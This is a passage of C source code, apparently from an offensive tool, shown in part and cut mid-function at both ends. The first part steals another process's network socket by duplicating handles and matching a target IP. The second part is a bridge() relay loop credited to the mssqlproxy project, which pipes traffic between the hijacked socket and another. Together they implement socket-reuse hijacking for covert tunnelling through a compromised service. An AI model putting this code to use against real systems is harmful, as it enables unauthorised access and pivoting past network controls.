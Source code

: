 ```c
					// Try to duplicate the socket
					status = WSADuplicateSocketW((SOCKET)dupHandle, GetCurrentProcessId(), &wsaProtocolInfo);
					if (status != 0) {
						printf("\t\t[X] Error duplicating socket!\n");
						free(needle);
						free(objectNameInfo);
						CloseHandle(dupHandle);
						continue;
					}

					// We got it?
					targetSocket = WSASocket(wsaProtocolInfo.iAddressFamily, wsaProtocolInfo.iSocketType, wsaProtocolInfo.iProtocol, &wsaProtocolInfo, 0, WSA_FLAG_OVERLAPPED);
					if (targetSocket != INVALID_SOCKET) {
						struct sockaddr_in sockaddr;
						DWORD len;
						len = sizeof(SOCKADDR_IN);

						// It this the socket?
						if (getpeername(targetSocket, (SOCKADDR*)&sockaddr, &len) == 0) {
							if (strcmp(inet_ntoa(sockaddr.sin_addr), dstIP) == 0) {
								printf("\t[*] Duplicated socket (%s)\n", inet_ntoa(sockaddr.sin_addr));
								free(needle);
								free(objectNameInfo);
								return targetSocket;
							}
						}

					}

					free(needle);
				}

			}
			free(objectNameInfo);

		}
	}

	return 0;
}

// Reused from MSSQLPROXY https://github.com/blackarrowsec/mssqlproxy/blob/master/reciclador/reciclador.cpp
void bridge(SOCKET fd0, SOCKET fd1)
{
	int maxfd, ret;
	fd_set rd_set;
	size_t nread;
	char buffer_r[BUFSIZE];
	maxfd = (fd0 > fd1) ? fd0 : fd1;
	while (1) {
		FD_ZERO(&rd_set);
		FD_SET(fd0, &rd_set);
		FD_SET(fd1, &rd_set);
		ret = select(maxfd + 1, &rd_set, NULL, NULL, NULL);
		if (ret < 0 && errno == EINTR) {
			continue;
		}
		if (FD_ISSET(fd0, &rd_set)) {
			nread = recv(fd0, buffer_r, BUFSIZE, 0);
```